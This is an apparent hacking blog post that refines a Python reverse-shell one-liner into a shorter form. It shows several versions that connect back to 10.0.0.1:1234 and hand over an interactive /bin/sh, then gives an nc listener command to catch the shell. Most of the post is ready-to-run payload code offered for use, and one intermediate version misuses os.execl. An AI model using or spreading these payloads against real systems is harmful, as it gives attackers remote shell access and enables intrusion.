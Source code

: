 ```yaml
---
layout: post
title:  "Compact Python Reverse Shell Revisisted"
subtitle: "Making a compact python reverse shell, even more compact! Expanded"
categories: python hacking
published: true
comments: true
tags:
 - Python
 - Hacking
---
```


Expanding on the short post about this, I figured it would be worth breaking down what was done and the steps used to reduce the overall code size.

The original version (224 bytes) in its 1 line glory.

``` python
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now lets lose the "python -c 'code goes here'". We are implying this is needed and just going to look at the python code we can play with for now. There is one little reduction we can do which is we can lose the space after the -c option.

``` python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

We can see some duplication, first s.fileno(), being called multiple times with the same parameter. So lets simplify that.

``` python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
h=s.fileno();
os.dup2(h,0);
os.dup2(h,1);
os.dup2(h,2);
p=subprocess.call(["/bin/sh","-i"]);
```

So that is a little smaller, we still have another easy duplicate os.dup2, but the past parameters are different. Easy, lets just make shorten the command then.

``` python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
h=s.fileno();
d=os.dup2;
d(h,0);
d(h,1);
d(h,2);
p=subprocess.call(["/bin/sh","-i"]);
```

So that is a little shorter again, lets take a look at our longest line now, line2. Now, those two constant, socket.AF_INET and socket.SOCK_STREAM do we need them? Can we change them to constant? Turns out they are the defaults, so let's loose them! Great, way to shave off 33bytes!

``` python
import socket,subprocess,os;
s=socket.socket();
s.connect(("10.0.0.1",1234));
h=s.fileno();
d=os.dup2;
d(h,0);
d(h,1);
d(h,2);
p=subprocess.call(["/bin/sh","-i"]);
```

Wow smaller, but still I think we can do better. Subprocess, nifty library but woah, that is a long import and call to have is there another call that would do the same thing? We know this will only work on linux since it needs a shell. So os.execl, we can use that, and that will be shorter, also we already have the import.

``` python
import socket,os;
s=socket.socket();
s.connect(("10.0.0.1",1234));
h=s.fileno();
d=os.dup2;
d(h,0);
d(h,1);
d(h,2);
os.execl(["/bin/sh","-i"]);
```

Well that is better, a few minor tweaks to the syntax a space we can lose here, a ; we don't need there. And turn it back into a one liner and you get. The much smaller new version (143 bytes)

``` python
	python -c'import socket,os;s=socket.socket();s.connect(("10.0.0.1",1234));h=s.fileno();d=os.dup2;d(h,0);d(h,1);d(h,2);os.execl("/bin/sh","-i")'
```

SO if you where to run this on a linux system and wanted to test it out, you would need to use the following little bit of bash to setup a listener, in this case we are using netcat, which is great for this. Be aware that not all versions of netcat will support the -l option.

To receive the reverse shell a simple nc works great.

``` bash
	nc -l -v -p 1234
```
